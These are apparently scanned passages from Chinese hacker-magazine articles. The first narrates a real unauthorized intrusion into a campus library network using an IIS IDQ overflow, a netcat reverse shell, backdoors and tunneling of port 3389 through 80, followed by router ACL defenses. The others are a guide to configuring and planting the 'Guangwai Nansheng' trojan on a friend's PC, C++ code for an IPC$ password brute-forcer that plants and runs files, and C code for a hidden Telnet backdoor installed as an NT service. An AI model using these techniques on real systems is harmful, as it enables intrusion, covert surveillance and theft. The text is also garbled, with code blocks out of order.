我的 IP 为 210.**.85.39，使用的网关是 210.**.85.3。我们不是局域网吗？IP 竟然用的是真实的 Internet IP 地址，而不是我们平时用的保留 Internet IP 地址。有意思，这就是校园网的先进性吧。又想起电子阅览室是直接隶属图书馆的，会不会在同一网段？在同一网段，又在同一个局域网的话……先 ping 看看，显示如图 2 所示。

返回命令可知图书馆首页的 IP 为：210.**.85.102，TTL 值为 128，系统应该是 Windows 2000 Server。而我的 IP 为 210.**.85.39，网关为 210.**.85.3。IP 的前面 3 个数值一样，就说明我们已经在同一网段了，很有可能在同一局域网内，使用同一个网关，但还不能轻易确定啦。Tracert 跟踪节点看看。Tracert 命令的作用，是判定数据包到达目的主机所经过的路径、显示数据包经过的中继节点清单及到达时间。继续上面的 command 窗口，输入：tracert 对方 IP，这里我输入的 IP 是图书馆主页的 IP。很快结果就出来了，如图 3 所示。

从图 3 可以看出数据包是直接到达目标的，途中并未经过任何节点，连图书馆的路由器（以下会提到）都没出现，看来整个网段就是一个局域网，因此图书馆的 Web 服务器就和我们在同一局域网内。还是先看看其构造，下载 superscan3.0，扫描23、80端口，再查看banner，有必要再连接上HTTP及FTP，这样就得到了该网段的基本构造：210.**.85.1为3COM路由器，估计是3com superstack Ⅱ 110，我想应该是整个校园网的路由器；210.**.85.2也为3COM路由器，根据banner可以猜测是一台3com superstack Ⅱ baseline，应该是图书馆网段的路由器；210.**.85.3系统为redhat linux 6.2，也就是该网段的网关；210.**.85.4系统为sco linux，是图书馆的数据库服务器；210.**.85.102系统为Windows2000 server，是图书馆的Web服务器。其他，还有几台开着HTTP服务，Web页面显示为“正在建立”的Windows 2000 Server服务器，我想是图书馆各个办公室的电脑吧；余下的就是Windows98系统的学生机了。由于时间关系，只能猜测到其基本构造。麻雀虽小，五脏俱全呀。有意思，我的兴致越来越高了。

现在来测试其安全性吧。我现在用的学生机的操作平台是Windows 98，我想用它来入侵是不可能的啦，很多黑客软件在Windows 98下是不能运行的，还是先找台Windows 2000做跳板吧。图书馆Web服务器我看算了吧，可能装了防火墙，即使没装防火墙弄坏了也不好。我们不是还有好几台办公室的服务器吗？对，就用它们吧。210.**.85.6吧，开着HTTP服务，打开其首页显示如图4：

我想不要说什么吧，十有八九是Windows 2000 Server，且一定存在IIS5.0的idq、ida、printer、unicode之类的漏洞（国内的很多主机都没补这些漏洞，更何况这只是内网的电脑），更不要说最新的webdav溢出漏洞了。先测试IDQ漏洞吧，下载Snake编的IDQ远程溢出工具及连接工具nc.exe（netcat.exe），用nc.exe在本机开813端口监听，命令：nc l vv p 813，在GUI版的溢出工具IP地址处填上：210.**.85.6，操作系统类型：IIS5 chinese Windows2k sp2（根据实际情况），溢出选项选择：溢出后，主动连接到IP/Port（k），IP为我们本机的IP，端口为nc.exe监听着的813端口。由于这只是基本的Windows 2000系统的入侵，网上有很多教程，我就不写得那么详细啦。最后，点击右上角的“IDQ溢出”按钮，这样，shellcode就发送到被攻击的服务器上了，如图5所示。

如果对方存在idq溢出漏洞的话，马上就会返回shellcode里绑定的命令：cmd.exe /c dir c:\，到我们本机监听813端口上。不出所料，因为又是局域网，速度快，瞬间我们本机nc.exe就有反应了，shellcode里绑定的命令在210.**.85.6执行后返回，对方真的存在IDQ溢出漏洞，如图6所示。

C盘的根目录下还有tencent文件夹，接下来就是加个用户，上传个批处理文件开大家都喜欢的3389（终端服务），留几个后门，擦干净脚印，不用我说吧。以后就用它做跳板来突破其他几台服务器的和路由。因为它们都开了很多服务，如 Telnet，FTP 等，所以我想利用内网的速度和无限制性，挂上些暴力破截工具，很快它们都会被拿下的。

看看时间，花了整整一个小时，还有十几分钟就下课，其他同学还在做作业呢。再干点什么吧，闲着也是闲着。于是就写了这篇文章的初稿，写完后发现个问题：校园网是有 IP 访问和端口限制的，要想访问内网还需要经过路由和网关，我从外网能访问到这台开了 3389 的跳板吗？登上一台远程主机试试先，果然无法连接，不过却能访问到图书馆的主页和我们开了终端服务的那台主机的首页（有点慢）。一定是网关做了限制，丢弃了发往除 80 端口以外其他端口的数据包，但并没有做特定 IP 访问限制。有意思，现在我们只要把 3389 端口重定向到 80 端口不就 OK 了吗？！从内网利用终端服务登陆工具登入到我们刚才开了终端服务的主机（210.*.*.85.6）上，先关闭 IIS 服务，防止它占用 80 端口，开始->程序->管理工具->Internet 信息服务，把“默认 Web 站点”服务停止，如图 7 所示。

现在要做的就是把终端服务的 3389 端口重定向到 HTTP 服务的 80 端口。利用 Windows 2000 的 NAT 路由转换协议功能可以完成，但那样太麻烦了，也快下课了。利用工具吧，下载 PortTunnel，优秀的端口重定向工具，运行后主界面如图 8 所示。

点击左下角的增加按钮，弹出“增加 / 编辑端口映射”对话框，我们只要设置“常规”设置栏的选项就行了，其他的根据实际情况跟安全性自行选择。输入端口为实际上我们输入的端口，输出端口为重定向后的端口，输入和输出地址都是在本机上，实际 IP 或者 127.0.0.1 都能选择。设置后，如图 9 所示。

点击“确定”后，再回到 PortTunnel 主界面，点击开始按钮，激活服务。现在你就可以从远程通过访问 80 端口来间接访问对方的 3389 端口了。如图 10：

原理很简单：利用网关对 80 端口协议的无条件信任，从而简单地突破了防火墙的限制。

防范：

校园网的安全问题我想主要是防火墙或路由器的限制不足及内网的安全意识不足。以下是我自己收集的一些资料和安全心得，希望对你能有用。

## 一、网关和路由器的安全设置

- 1. 对内部网的重要服务器进行访问限制

Cisco2621 路由器为例：

对于没有配备专用防火墙的校园网，采用动态分组过滤技术建立对重要服务器的访问限制就显得尤为重要。对于配备了专用防火墙的校园网，此项任务可以在防火墙上完成，这样可以减轻路由器的负担。无论是基于路由器实现，还是在防火墙上完成设置，首先都应该制定一套访问规则。可以考虑建立如下的访问规则：

- 允许外部用户到 Web 服务器的向内连接请求。
- 允许 Web 服务器到外部用户的向外答复。
- 允许外部 SMTP 服务器向内部邮件服务器的向内连接请求。
- 允许内部邮件服务器向外部 SMTP 服务器的向外答复。
- 允许内部邮件服务器向外 DNS 查询。
- 允许到内部邮件服务器的向内的 DNS 答复。
- 允许内部主机的向外 TCP 连接。
- 允许对请求主机的向内 TCP 答复。

其他访问规则可以根据各自的实际情况建立。列出允许的所有通信流后，设计访问列表就变得简单了。注意应将所有向内对话应用于路由器外部接口的 IN 方向，所有向外对话应用于路由器外部接口的 OUT 方向。

- 2．阻止对关键端口的非法访问

关键端口可能是内部系统使用的端口或者是防火墙本身暴露的端口。对这些端口的访问应该加以限制，否则这些设备就很容易受到攻击。建立如下访问列表：

```
access-list 101 deny tcp any any eq 135
access-list 101 deny tcp any any eq 137
access-list 101 deny tcp any any eq 138
access-list 101 deny tcp any any eq 139
access-list 101 deny udp any any eq 135
access-list 101 deny udp any any eq 137
access-list 101 deny udp any any eq 138
access-list 101 deny udp any any eq 139
```

- 3．防止外部的非法探测

非法访问者对内部网络发起攻击前，往往会用 ping 或其他命令探测网络，所以可以通过禁止从外部用 ping、traceroute 等探测网络来进行防范。可建立如下访问列表：

```
access-list 102 deny icmp any any echo
! 阻止用 ping 探测网络。
access-list 102 deny icmp any any time-exceeded
! 阻止用 traceroute 探测网络。
```

注：可在外部接口的向外方向使用 102 过滤。在这里主要是阻止答复输出，不阻止探测进入。

- 4．防止外部 IP 地址欺骗

外部网络的用户可能会使用内部网的合法 IP 地址或者回环地址作为源地址，从而实现非法访问。针对此类问题可建立如下访问列表：

```
access-list 101 deny IP 10.0.0.0 0.255.255.255 any
access-list 101 deny IP 192.168.0.0 0.0.255.255 any
access-list 101 deny IP 172.16.0.0 0.0.255.255 any
! 阻止源地址为私有地址的所有通信流。
access-list 101 deny IP 127.0.0.0 0.255.255.255 any
! 阻止源地址为回环地址的所有通信流。
access-list 101 deny IP 224.0.0.0 7.255.255.255 any
! 阻止源地址为多目的地址的所有通信流。
access-list 101 deny IP host 0.0.0.0 any
! 阻止没有列出源地址的通信流。
```

注：可以在外部接口的向内方向使用 101 过滤。

- 5．其他

保护路由器不受攻击，生成阻止 Telnet、SNMP 服务的向内过滤保护路由器。关闭路由器上不用的服务。

通过对路由器的以上配置，相信路由器保护下的校园网（内网）的安全性绝对能提升到高水准。当然，真正的安全配置还不止这些，还需要你找资料和实践去发现的。

## 二．内网安全

一些管理员一直以为没有直接连上 Internet 就是安全的，因而往往忽略内网的安全。其实不然，一些功能强大的大型局域网就相当于一个小型 Internet 网。如我们学校的校园网：路由器、网关、DNS 服务器、WWW 服务器、MAIL 服务器等一应俱全，加之内网的连接速度快，因而成为

（下转第50页）

经常玩木马的朋友你们一定听过“广外女生”这名字吧，一专业级的远程控制以及网络监控工具，由广外程序员网络制作，强大的反杀毒能力技惊群雄，它可方便地干掉金山毒霸、天网等国内防护软件。随着广外女生的走红，广外程序员网络又推出“广外幽灵”，非常隐私的键盘记录、密码盗取工具，可以越过现在的一切网络防火墙，体积极小威力很大。可以说，广外程序员网络的木马编程技术在国内始终处于领先水平。在沉寂数月之后，2003年03月26日广外程序员网络又为我们推出了“广外男生0.91B”——“广外女生”的姐妹篇，同样为远程控制软件，其原理和性能却有了很大的改进。下面我们就来看看它的使用吧。

## 广外女生 男生

## ——木马“广外男生”使用和分析

文／朱平

广外男生运用了“反弹端口原理”与“线程插入”技术，且基于成功的“广外幽灵”的先进技术，服务端运行时隐藏了进程！所有网络操作均插入到其他应用程序的进程中完成。也就是说，即使受控端安装的防火墙拥有“应用程序访问权限”的功能，也不能对广外男生的服务端进行有效的警告和拦截，使对方的防火墙形同虚设！因此，大大加强了“广外男生”的隐蔽性。而“广外女生”其突破防火墙的方式为直接“杀死”，不过太容易被发现啦。且“广外男生”运用了主动连接技术，无论双方在何处，只要二者在Internet上，服务端会主动连接上客户端。而“广外女生”运用的大多是手动连接方式（邮件更新服务端方式也需要手动更新），除非知道对方此时的IP地址，才能连接上，这使得服务端和客户端的连接存在很大的局限性和灵活性。其新特性还表现在：客户端高度模仿Windows资源管理器，除了全面支持访问远程服务端的文件系统，也同时支持通过对方的“网上邻居”访问对方内部网其他机器的共享资源！强大的文件操作功能，可以对远程机器进行建立文件夹，整个文件夹（连子目录、文件）一次删除，支持多选的上传、下载等基本功能。同时，特别支持高速远程文件查找，而且可对查找结果进行下载和删除的操作。更重要的它仍然是免费软件，大家可以不受限制地下载和使用。

现在就来介绍它的具体使用吧。下载后解压缩，你会发现里面只有两样东西，一个应用程序和一个帮助文件。那应用程序就是广外的客户端。点击运行主界面，外型一改“广外女生”的可爱，给人以清新、朴实的感觉，如图1所示。

## 客户端配置

我们先配置好客户端吧。运行菜单设置—>客

## 客户端设置

弹出设置对话框，我们首先确定客户端最大连接数和客户端连接端口，默认连接数为 30，默认连接端口为 80，如果你 80 端口被占用了，可以使用其他端口，这些都根据自己的实际情况配置。IP 地址段的过滤：有时候不想让某个网段的机器访问或只想让某个网段的机器连接你的客户端的话，可以在这里输入起止 IP 段。单击下一步来到第二页，此页是服务端和客户端连接方式的配置，如果你有固定 IP 的话，勾上“客户端处于静态 IP（固定 IP 选项）”，这样服务端随时都可以连到该固定 IP 机器上，这种连接方式适合两台机器在同一局域网或客户端 IP 固定的用户。可一般用户的 IP 都是动态，所以我们勾上“使用 HTTP 网页 IP 通知”选项。来到下一页，IP 通知文件设置页面，如图 2 所示。


图 3

你本地的 IP 文件同名。配置好后，单击“下一步”，客户端就会自动检测能否跟你的 FTP 连接。

连接成功后，客户端就会经常把你的 IP 信息发送到 FTP 服务器上保存。服务端连接时则通过 HTTP 读取客户端发送到 FTP 服务器上的动态 IP 信息，并连接。如图 4 所示。


图 2

对需填写的各项说明一下，客户端 IP：当前的客户端 IP 地址。端口：当前男生客户端正在使用的端口。加密密码：把你的 IP 和端口加密的密码，由于算法的需要，请使用 12 位以内的数字作为密码。目标文件：就是目标生成的含有你的 IP 和端口的 HTM 文件，你不需要写上路径，程序会自动把该文件生成在男生目录下。以上内容配置好后，单击“下一步”来到 FTP 服务器设置页面，这步很重要，关系到服务端能否顺利地找到客户端的 IP 地址并连接，也就是能否主动连接的关键，以下是我的配置，如图 3 所示。

FTP 地址：你的 FTP 服务器（还要能提供 HTTP 服务）的 IP 地址。端口：FTP 端口，一般都是 21。用户名和密码：你的 FTP 登录用户名和密码。发布目录：你的网页所放的目录。上传后文件：上传后的文件是否要改名，默认值是和你本地的 IP 文件同名。


图 4

以上为我们的 IP 信息，为了安全起见，数据实现了加密。服务端读取信息，并解码，连接，这样就实现了主动连接方式。

## 服务端配置

打开菜单设置→生成服务端，弹出软件声明对话框，点击“同意”，来到下一页服务端的常规设置，如图 5 所示。

EXE 文件名：你的服务端运行后拷贝到系统目录中的 EXE 文件名。DLL 文件名：你的服务端运行后拷贝到系统目录中的 DLL 文件名。注册表启动项：服务端在注册表中的启动项的名称，你一般可以在 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run 中找到该启动项。选项：服务端运行时显示运行标识并允许对方退出，此项选中后，连接时在服务端的系统托盘处出现运行标志，并运行对


方主动断开连接。此功能多用于朋友间进行文件传输和数据交流时，如果你是玩木马的话，就不用勾上了吧。单击“下一步”来到网络设置，如图 6 所示。

图 6

在客户端配置时如果你选择固定 IP 连接方式，此时你只要选中选项静态 IP，填上你客户端的固定 IP 和你设定的连接端口。因为前面我们选择的是 FTP 连接方式，所以这里我们只要填上客户端发生到 FTP 服务器上的 IP 信息的 URL。单击“下一步”，填上生成文件的路径后，点击“完成”，就会在我们的电脑上生成服务端文件。这样，服务端我们就配置好了。

好了，我们来看看它的远程控制功能。你现在要做的就是把服务端发给你朋友，无论你用什么方法，只要他点击运行了服务端，他的电脑就会主动连接上我们。看看我可怜的朋友点了我给它的服务端后，如图 7 所示。


图 7

怎么有 3 个相同服务端？看来他不只点了一次，是点了 3 次。连接后我们能做的事情就多了，如图 7 我们运用的是远程桌面功能，这样就能看见你的朋友在干什么啦。广外男生的功能还有：文件共享、远程注册表管理、进程和服务管理、远程桌面。由于和其他远程控制软件功能差不多，我就不多说了，大家可以看其帮助文件，帮助文件才是最好的教程。

## 服务端卸载

- 1. 用户广外男生自带的卸载功能来卸载服务端，方法是：当服务端连上你的客户端之后，到“进程与服务”的页面，点击工具栏上最右边天使的图标，就可以卸载男生的服务端。
- 2. 手动卸载
   1. 打开系统注册表键值如下：HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run，需要查看广外男生运行的 EXE 文件。该键值并没有完整运行路径，因为可执行文件在 system32 文件夹中，可以直接运行。删除该自启动键值，然后在 system32 系统文件夹中删除相应的 EXE 文件。
   2. 此步骤很重要，虽然以上删除了自启动项，但下次还会启动的。因为广外男生修改注册表使 dll 自动运行，而且运行之后 dll 插入 explorer 进程中，dll 是不可以删除的，即使你终止 explorer 进程，但还是会被插入到其他进程中。此步骤你需要知道广外男生 dll 文件名称，你可以在 system32 系统文件夹中查找，文件大小为 116KB 或者 115KB。找到广外男生 dll 之后复制其文件名称，然后打开系统注册表，点击→编辑→查找，然后输入你刚复制的 dll 文件名称，找到此键值之后删除即可。因为广外男生运行之后随机写注册表使 dll 能够自动运行，注册表位置是变化的。

   注意：一定要利用 dll 文件名查找整个注册表且删除键值，使广外男生不能自动运行。

   3. 重新启动计算机之后删除 system32 系统文件夹中的广外男生 DLL，文件大小为 116K 或 115K。

对于广外女生来说，采用了新的隐藏技术，使程序整体的性能有了提升，但控制功能上并没有太多改进。希望广外程序员能在下一版本有所改进。最后，希望大家把它用在正途上。

相信大多数人都用过 IPC 扫描器（例如 IPCSCAN）、IPC 种植器（例如流光的种植者）虽然和其他专业扫描器相比，它们没有那么快的速度和功能。但是，对于一个网络新手来说，它们的确称得上是非常好用的傻瓜式工具，其实它的制作原理也是比较傻瓜式的，本文简单地叙述了 IPC 扫描器的制作过程。


# 代码扫描 IPC 扫描种植器

文/zvrop

### 一、扫描部分：

IPC 扫描器的速度很慢（因为几个函数的延迟），所以必须要用多线程来提高速度。文中的代码都是在 BCB5（Borland C++ Builder 5.0）下编写的，下面讨论的是线程中的具体代码：

我们知道，IPC 指纹（信息）大多是建立在空连接或者连接上的，所以我们有必要先来了解如下代码：

```cpp
AnsiString getfuncip="127.0.0.1";
AnsiString ipp="\\\\"+getfuncip +"\\ipc$"; // 此处是地址，注意杆的个数
NETRESOURCE nr;
nr.lpLocalName=NULL;
nr.lpProvider=NULL;
nr.dwType=RESOURCETYPE_ANY;
nr.lpRemoteName=ipp.c_str();
DWORD ret=WNetAddConnection2(&nr, "", "Administrator", 0); // 建立 IPC 连接，当然你也可以建立空连接，就把那个 Admin 留空
if(ret!=ERROR_SUCCESS)
{ // 不能连接，这里处理
```

```cpp
StringToWideChar(getfuncip, IP, 50);  // 此处是 ip，你可以用一个 string 变量承接转换过来
PNET_DISPLAY_USER pBuf2, pBuffer2;
DWORD dwRec;
DWORD i=0;
DWORD lerror;
DWORD dwLevel=1;
TStrings *sting=new TStringList(); // 用来承载多个用户
NET_API_STATUS nStatus;
nStatus=NetQueryDisplayInformation(IP, dwLevel, i, 100, 0xFFFFFFFF, &dwRec, (PVOID *)&pBuf2); // 这里开始获取用户了
if((nStatus==ERROR_SUCCESS) || (nStatus==ERROR_MORE_DATA))
{
    pBuffer2=pBuf2;
    sting->Clear(); // 清空用户库
    for(;dwRec>0;dwRec--) // 循环添加多个用户记录
    {
        sting->Add(pBuffer2->usri1_name); // 添加用户，然后指向下一个记录
        i=pBuffer2->usri1_next_index;
        pBuffer2++;
    }
}
else
{ // 不能获取用户，出错处理
```

上面是建立连接的代码，只有建立连接后才能继续获得用户名（当然，上面如果用的是 admin 连接，那么就可以直接传文件了），接下来看获得用户的代码：

```cpp
WCHAR IP[50];
```

## 二、种植部分

上部分的代码一次性地获取了所有的用户资料，并将其存放在 string 变量里面。下面就可以对这些用户实施暴力破解什么的，看看代码（比较多，耐心耐心）：

```cpp
TStrings *uring=new TStringList();// 这里可以添加密码进来进行穷举
AnsiString copyfn="\\\\"+getfuncip+"\\admin$\\system32\\"+namefile; // 要复制的文件的全路径
for(int i=0;i<string->Count;i++) // 用户循环
{
    for(int j=0;j<uring->Count;j++) // 密码循环
    {
        DWORD ret=WNetAddConnection2(&nr,
            uring->Strings[j].c_str(),
            sting->Strings[i].c_str(),0);
        // 还是上面的函数，只不过这里的用户名和密码换了
        if(ret==ERROR_SUCCESS)
        {
            // 到这里说明用户密码正确，你可以发信息给操作者
            // 然后开始上传文件，其实文中很多地方可以发信息给操作者
            // 读者自己添加，下面开始传文件上去
            HANDLE rFile=CreateFile(Form1->Edit14->Text.c_str(), // 本地文件
                GENERIC_READ, // 读
                NULL,NULL,
                OPEN_EXISTING,
                NULL,NULL);

            HANDLE wFile=CreateFile(
                copyfn.c_str(), // 远程文件
                GENERIC_ALL,FILE_SHARE_READ|
                FILE_SHARE_WRITE, // 写
                NULL,
                CREATE_ALWAYS,
                FILE_ATTRIBUTE_NORMAL,
                NULL);

            // 上面的两个函数一个是读本地文件地址，一个是写远程文件地址
            if(wFile==INVALID_HANDLE_VALUE ||
               rFile==INVALID_HANDLE_VALUE)
            {
                // 连接文件出错，善后
            }
            // 以下开始传输文件
            char fileBuff[1024]; // 缓冲区
            unsigned long readnum=0,
                         writenum=0;
            if(!ReadFile(rFile,fileBuff,1023,&readnum,NULL))
            {
                // 读文件出错，处理
            }
            while(readnum)
```

```cpp
{
    if(!WriteFile(wFile,fileBuff,readnum,&writenum,NULL))
    {
        // 写文件出错，处理
    }
    if(readnum!=writenum)
    {
        // 没有完全写入，处理
    }
    if(!ReadFile(rFile,fileBuff,1023,&readnum,NULL))
    {
        // 读文件出错，处理
    }
}
CloseHandle(wFile); // 关闭句柄
CloseHandle(rFile);
// 如果运行到这里，说明已经传输，下面可以运行了。

// 选择简单的运行方式就是用 NetScheduleJobAdd 函数，下面先获取时间：
PTIME_OF_DAY_INFO pBuf=NULL;
Int hour,mins,zone;
NET_API_STATUS nStatus=NetRemoteTOD(IP,
    (PBYTE*)&pBuf);
// 获取时间
if(nStatus==NERR_Success)
{
    if(pBuf!=NULL)
    {
        hour=pBuf->tod_hours;
        mins=pBuf->tod_mins;
        zone=(pBuf->tod_timezone/(-60));
    }
}
else
{
    // 获取时间出错，处理
}

wchar_t server[256], cmd[1024];
AT_INFO at;
DWORD rc, id;
mbstowcs(server, getfuncip.c_str(), lenof(server)); // ip
mbstowcs(cmd, filename.c_str(), lenof(cmd)); // 程序名字
memset(&at, '\0', sizeof(at)); // 清零
at.JobTime=(hour*3600+mins*60)*1000+60000; // 时间
at.DaysOfMonth=0;
at.DaysOfWeek=0;
at.Flags=0;
at.Command=&cmd[0];
rc = NetScheduleJobAdd(server, (byte*)&at, &id); // 运行
```

补充：
这样，基本的框架都已经出来了，大家修改一下，就可以写出自己的 IPC 扫描器了。代码中的注释很详细，但这里还是要罗嗦几句，也就是几个需要注意的地方：

- 1. 程序要用线程的话，必定是并发操作，所以要设定好变量，不要发生冲突了。
- 2. 程序写的时候，尽量去掉不必要的错误处理，适当地设置缓冲区，这样可以很有效地加快速度。
- 3. 上述程序还不完善，也就是不健壮，一些地方还需要修改，可不要直接拷贝哦。
- 4. 本文只介绍了获取用户名和密码、建立连接、上传文件、运行等几个示例。其实，建立了空连接还可以做很多事情，具体的，可以看看 TOo2y 的那篇文章（http://www.xfocus.net/article_view.php?id=497），里面写的很详细，大家有空记得去看看。

如果说木马是现在最好用的黑客类工具，那么 Telnet 后门就相当于一个没有 Client 端的木马，利用 Windows 自带的工具或者 NC 均可以直接连接。本文就 Telnet 后门类软件的制作过程和必要的技巧做一个较简单的透视，希望大家看完后，能有所收获。


# 写个简单的 Telnet 后门软件

文/zvrop

Telnet 后门非常好用的地方就在于它可以直接捆绑 Dos，让使用者可以很方便地使用 Dos 的所有功能，小巧的体积加上 Telnet 常用的服务启动方式，以及作者加入的相当强度的功能，不得不说是一种很好用的软件。我们就先来介绍一下 Telnet 的工作过程以及它的两个重要组成的功能模块——捆绑 Dos 控制台和时下最流行的启动方式——NT 服务：

```cpp
int sock, msock, error;
struct sockaddr_in server;
info = MAKEWORD(2, 0); // 确定 Socket 的版本
error = WSAStartup(info, &data); // 此函数用来进行初始化，设置版本，
// 分配资源等的工作
if(error != 0)
    return;
sock = socket(AF_INET, SOCK_STREAM, 0); // 建立连接，
// 参数一是确定类型，AF_INET，Internet 类型
// SOCK_STREAM 是流模式套接字
// 0 表示自动选择合适的协议
if(sock == SOCKET_ERROR)
    return;
server.sin_family = AF_INET;
server.sin_port = htons(1000); // 端口
server.sin_addr.S_un.S_addr = INADDR_ANY;
```

### 一、Telnet 后门的实现－连接

Telnet 也是基于 TCP/IP 连接程序，程序都是用 Windows Sockets 规范来写的，下面给出了一段通用的代码，我们先来介绍一下连接的组成：

```cpp
WORD info; WSADATA data; // 定义要用的变量
```

```cpp
}//endif
}//end 密码循环
}//end 用户循环
```

## 接收任何地址的信息

```c
if(bind(sock, (const struct sockaddr *)&server, sizeof(server))==SOCKET_ERROR)
    return; // 把上面的 server 配置完成后，
            // 就用这个函数来在网络上标识出来
if(listen(sock, 5)==SOCKET_ERROR) // 监听最大 5 个队列
    return;
while(1) // 用死循环来不停的接收连接
{
    msock=accept(sock, (struct sockaddr*)0, (int*)0); // 有连接到来了
    if(msock==SOCKET_ERROR)
        return;
    // 已经成功连接
}
```

一般的 TCP 软件都是这样开始的，Telnet 后门也不例外。到了这里，用户就可以连接这台计算机了。Telnet 后门通常要用线程与用户建立连接，如果有一个用户发出连接请求就开一个线程，这样便不至于会出现非法用户堵塞路口使得其他的用户进不去的情况，所以线程就要从这里开始了。下面就要调用线程启动函数，具体创建的线程的代码后面介绍（上面的代码成功连接处就可以开始加入线程，或者再加上身份验证等等）。

## 二、Telnet 后门—管道

Telnet 后门捆绑 CMD 利用了管道技术。管道分为匿名和命名管道，我们要建立的是匿名管道，并且是两个匿名管道，一个专门负责把 Dos 的输出发回控制者手中，另外一个专门负责提供接收控制者发出的命令，并将命令请求返回给 Dos。下面举个简单的例子说明一下：

```c
HANDLE Rpipe, Wpipe, Wfile, Rfile; // 四个读写标识句柄
STARTUPINFO starinfo; // 结构
GetStartupInfo(&starinfo); // 设置启动信息到结构
starinfo.dwFlags=STARTF_USESHOWWINDOW | STARTF_USESTDHANDLES;
starinfo.hStdInput=Rpipe; // 读入句柄，下面用
starinfo.hStdError=starinfo.hStdOutput=Wpipe; // 输出句柄，下面用
starinfo.wShowWindow=SW_HIDE;
PROCESS_INFORMATION procinfo;
CreateProcess(systempath, NULL, NULL, NULL, TRUE, 0, NULL, NULL, &starinfo, &procinfo);
```

```c
TRUE, 0, NULL, NULL,
&starinfo, &procinfo);
// 上面创建 Dos 进程，systempath 就是 CMD 文件的全路径
SECURITY_ATTRIBUTES pipew;
pipew.nLength=sizeof(SECURITY_ATTRIBUTES);
pipew.lpSecurityDescriptor=NULL;
pipew.bInheritHandle=TRUE;
CreatePipe(&Rpipe, &Wfile, &pipew, 0);
// 上面创建一个写管道，向 Dos 写信息，注意这里的 Rpipe 和 Wfile
char buf[1024];
int nothing;
while(1)
{
    Sleep(100); // 里面可以加上适当的延时
    int howlong=recv(msock, buf, 1024, 0); // 接收信息
    send(msock, buf, howlong, 0); // 这里可以决定要不要回显
    WriteFile(Wfile, buf, strlen(buf), &nothing, NULL); // 写入管道
    ZeroMemory(buf,1024);
}
```

到这里这里，写管道就建立完成了，读管道的建立过程就要再开一个线程，实现同步操作，下面是读管道的程序，其实和写管道差不多，就不解释了：

```c
SECURITY_ATTRIBUTES piper;
piper.nLength=sizeof(SECURITY_ATTRIBUTES);
piper.lpSecurityDescriptor=NULL;
piper.bInheritHandle=TRUE;
CreatePipe(&Rfile, &Wpipe, &piper, 0);
char buf[50000];
int howlong;
while(1)
{
    ReadFile(Rfile, buf, 50000, &howlong, NULL); // 读 dos 的输出信息
    Send(msock, buf, howlong, 0); // 发送回去
}
```

这样，一个简单的 Telnet 后门程序就算完成了，在上面代码的基础上加上自己的创意，应该不难写出一个好的后门来。OK!，废话少说，转入 Telnet 的另外一张王牌——NT 服务启动方式。

## 三、Telnet 后门—NT 服务启动

Telnet 后门可以说是非法软件，笔者觉得用加载注册表的方式启动容易使程序暴露，一个稍微有点 Windows 操作基础的人便可以很快地排除程序的驻留（杀进程，删注册表，删除文件）。下面，介绍一种较好的启动方法：注册为系统服务，这种方法有如下特点：随系统运行启动，一般的手工方式不能删除，隐藏性好。但是它只适用于 NT 内核的系统。

在主函数里就可以直接添加如下代码：

```c
SERVICE_TABLE_ENTRY beginser[2]; // 两个结构
beginser[0].lpServiceName = 你自己的服务名字;
beginser[0].lpServiceProc = StartMain; // 服务函数名
beginser[1].lpServiceName = NULL;
beginser[1].lpServiceProc = NULL;
StartServiceCtrlDispatcher(beginser); // 开始服务
```

这是调用服务必需的操作，上面定义了 2 个 SERVICE_TABLE_ENTRY，因为最后一个服务要留空，所以你用 1 个服务就要定义 2 个。

下面是 ServiceMain 这个函数的代码（也就是服务的开始）：

```c
void WINAPI StartMain(DWORD dwArgc, LPTSTR *lpszArgv)
{
    RegisterServiceCtrlHandler("BeginServ"); // 启动函数（调整状态，详看下面说明）
    ss.dwServiceType = SERVICE_WIN32_OWN_PROCESS |
                       SERVICE_INTERACTIVE_PROCESS;
    ss.dwCurrentState = SERVICE_RUNNING; // 这里需要频繁的修改。
    // 可能的取值有：SERVICE_PAUSED、SERVICE_STOPPED，我想这些不要我说明吧
    ss.dwControlsAccepted = SERVICE_ACCEPT_STOP;
    ss.dwWin32ExitCode = NO_ERROR;
    ss.dwCheckPoint = 0;
    ss.dwWaitHint = 0;
    SetServiceStatus(ssh, &ss); // 设置服务状态
    Sleep(100); // 延迟一下
    func2biegin(); // 自己的函数
}
```

现在还少一个函数，就是上面的 “BeginServ”，其代码如下：

```c
Void WINAPI BeginServ(DWORD Opcode) // 服务控制程序
{
    switch(Opcode)
    {
    case SERVICE_CONTROL_STOP: // 停止服务
        ss.dwServiceType = SERVICE_WIN32_OWN_PROCESS |
                           SERVICE_INTERACTIVE_PROCESS;
        // 和上面一样，这里不加注释了
        ss.dwCurrentState = SERVICE_STOPPED;
        ss.dwControlsAccepted = SERVICE_ACCEPT_STOP;
        ss.dwWin32ExitCode = NO_ERROR;
        ss.dwCheckPoint = 0;
        ss.dwWaitHint = 0;
        SetServiceStatus(ssh, &ss);
        break;
    case SERVICE_CONTROL_INTERROGATE:
        SetServiceStatus(ssh, &ss);
        break;
    } // endswitch
}
```

现在就可以让服务运行这个程序了。写了这么多都是为了配合服务方式运行，重点还是我们自己的函数。这里要构成服务还需要有一个程序来帮助它运行，也就是寄生程序。值得注意的是，这个寄生程序在第一次运行完成后就没有作用了，你可以选择删除它，或者作为程序的备份（可以选择以流方式隐藏文件，不会给人看到哦，嘿嘿），我们先来看看它的代码：

```c
SC_HANDLE SCM = NULL, SCS = NULL;
SCM = OpenSCManager(NULL, NULL, SC_MANAGER_ALL_ACCESS);
if (SCM != NULL)
{
    SCS = CreateService(SCM, 服务名字, 服务名字,
        SERVICE_ALL_ACCESS,
        SERVICE_WIN32_OWN_PROCESS |
        SERVICE_INTERACTIVE_PROCESS,
        SERVICE_AUTO_START, // 自动运行方式
        SERVICE_ERROR_IGNORE,
        这里是文件全路径名就是上面那个文件的地址,
        NULL, NULL, NULL, NULL, NULL); // 后面 5 个参数一般不要写的
    if (SCS == NULL) // 创建失败，尝试打开服务
    {
        if(GetLastError()==ERROR_SERVICE_EXISTS)
        {
            SCS = OpenService(SCM,"服务名字",
                SERVICE_ALL_ACCESS);//打开服务
            if(SCS==NULL)//出错则关闭，退出
            {
                goto exit;
            }
        }
        else
        {
            goto exit;
        }
    }
    StartService(SCS,0,NULL);//开始服务
exit://退出地址
CloseServiceHandle(SCS);//关闭句柄
CloseServiceHandle(SCM);
```

